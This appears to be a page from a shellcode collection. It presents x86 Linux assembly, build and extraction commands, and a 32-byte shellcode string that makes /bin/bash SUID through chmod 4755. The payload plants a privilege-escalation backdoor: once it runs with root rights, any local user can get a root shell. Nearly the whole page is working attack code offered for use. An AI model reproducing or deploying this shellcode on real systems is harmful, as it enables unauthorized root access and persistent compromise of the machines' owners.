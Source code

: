```yaml
---
layout: default
title: chmod("/bin/bash", 4755) - Make bash SUID
permalink: /shellcode/asm-03.html
os: Linux
arch: Intel x86
length: 32
---
```


# {{ page.title }}

---
**OS:** {{ page.os }}

**Architecture:** {{ page.arch }}

**Length:** {{ page.length }} bytes

---

## Assembly

```nasm
section .text
global _start

_start:
	xor eax, eax			; null eax (0)

	push eax			; push null terminator
	mov al, 0x68			; move "h" into al (eax)
	push eax			; push "h"

	push dword 0x7361622f		; push "/bas"
	push dword 0x6e69622f		; push "/bin"

	mov ebx, esp			; move pointer to "/bin/bash" into ebx
	mov cx, 4755o			; move mode (4000: SUID, 755: rwxr-xr-x) into cx (ecx)

	mov al, 0x0f			; move chmod syscall number into al (eax)
	int 0x80			; call chmod

	xor ebx, ebx			; null ebx (0)
	mov al, 0x1			; move exit syscall number into al (eax)
	int 0x80			; call exit
```

## Compilation and Linking

```bash
# Assemble
nasm -f elf -o code.o code.asm

# Link
ld -m elf_i386 -o code code.o

# Extract Shellcode
printf '\\x' && objdump -d code | grep "^ " | cut -f2 | tr -d ' ' | tr -d '\n' | sed 's/.\{2\}/&\\x /g'| head -c-3 | tr -d ' ' && echo ' '
```

## Shellcode

```
\x31\xc0\x50\xb0\x68\x50\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x66\xb9\xed\x09\xb0\x0f\xcd\x80\x31\xdb\xb0\x01\xcd\x80
```